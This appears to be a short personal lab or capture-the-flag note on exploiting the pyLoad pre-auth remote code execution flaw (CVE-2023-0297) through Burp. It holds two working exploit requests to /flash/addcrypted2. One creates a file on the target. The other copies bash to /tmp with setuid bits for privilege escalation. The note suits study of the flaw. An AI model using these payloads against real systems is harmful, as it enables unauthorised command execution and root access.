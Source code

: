 opened the page 10.10.11.214:8000 in firefox and caught request with burp

![[burp21.png]]

not really nessesary though since I made a new burp repeater tab

Tried cvs payload
https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad

```sh
POST /flash/addcrypted2 HTTP/1.1
Host: <target>
Content-Type: application/x-www-form-urlencoded

jk=pyimport%20os;os.system("touch%20/tmp/pwnd");f=function%20f2(){};&package=xxx&crypted=AAAA&&pas
```

![[burp22.png]]

file created


Changed to this:

```sh
POST /flash/addcrypted2 HTTP/1.1
Host: 127.0.0.1:8000
Content-Type: application/x-www-form-urlencoded
Content-Length: 143

jk=pyimport%20os;os.system("cp /bin/bash /tmp/fixit42; chmod +u=sx /tmp/fixit42");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa
```

![[burp23.png]]

